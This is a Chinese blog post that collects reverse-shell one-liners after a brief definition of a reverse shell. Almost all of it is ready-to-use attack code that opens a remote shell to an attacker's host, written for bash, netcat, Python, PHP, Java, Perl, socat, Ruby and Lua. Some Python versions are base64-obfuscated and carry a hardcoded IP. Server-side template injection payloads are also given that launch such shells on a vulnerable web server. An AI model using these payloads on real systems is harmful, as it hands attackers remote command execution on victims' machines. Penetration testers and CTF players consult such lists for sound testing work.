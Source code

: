 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      记录一些反弹shell的指令               # 标题 
subtitle:    一篇水文 #副标题
date:       2020-01-12              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Linux

---
```


# 什么是反弹shell
反弹shell在我看来就是攻击者输入命令，命令在被攻击端执行，并将执行后得到的结果回显到攻击端的过程。  
在目前看来似乎主要用在命令执行上，当网页没有直接回显时我们可以使用反弹shell在我们自己服务端对被攻击端执行代码。  
关于反弹shell的主要原理我就不在这细讲了。具体的可以看这几篇文章:  

[panda1g师兄的文章1](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux%E9%87%8D%E5%AE%9A%E5%90%91%2F)  
[panda1g师兄的文章2](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux_%E5%8F%8D%E5%BC%B9shell%2F)  
[K0rz3n师兄的文章1](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)  
[K0rz3n师兄的文章2](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)  

# 反弹shell的指令
本文仅记录一些反弹shell的指令:
## bash反弹shell
```
bash -i &> /dev/tcp/ip/port 0>&1
```
## nc反弹shell
### nc支持-e
```
nc -e /bin/bash ip port 
```
### nc不支持-e
由于-e命令太危险，很多nc在安装时就已经把-e命令去掉了.我们可以采用监听两个端口来解决。  
攻击机:
```
nc -l -vv -p port1
nc -l -vv -p port2 
```
受害机:
```
nc ip port1 |/bin/bash| nc ip port2
```

## python反弹shell
``` python
python -c
"
import socket,subprocess,os;
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('ip',port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p = subprocess.call(['/bin/bash','-i']);
"
```
也可以这样写:
``` python
python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"
```


## php反弹shell
``` php
PHP -f 
$s = fsockopen("ip",port);
exec('/bin/bash -i  0>&3 1>&3 2>&3');
```
(注意单双引号)

## java反弹shell
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;
cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl反弹shell
``` perl
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## SSTI反弹shell
``` python
{{[].__class__.__base__.__subclasses__()[59]().__getattribute__('_module').__getattribute__('linecache').__getattribute__('o'+'s').__getattribute__('sys'+'tem')("python -c 'i"+"mport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.86.129\",23333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")}}
```
也可以这样写:
``` python
[].__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['os'].system('python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"')
```

## socat反弹shell
``` socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<你的IP>:<你的端口>
```

## ruby反弹shell
``` ruby
ruby -rsocket -e'f=TCPSocket.open("<你的IP>",<你的端口>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 不依赖于/bin/sh的shell
``` ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 如果目标系统运行Windows
``` ruby
ruby -rsocket -e 'c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## lua反弹shell
``` lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('<你的IP>','<你的端口>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```



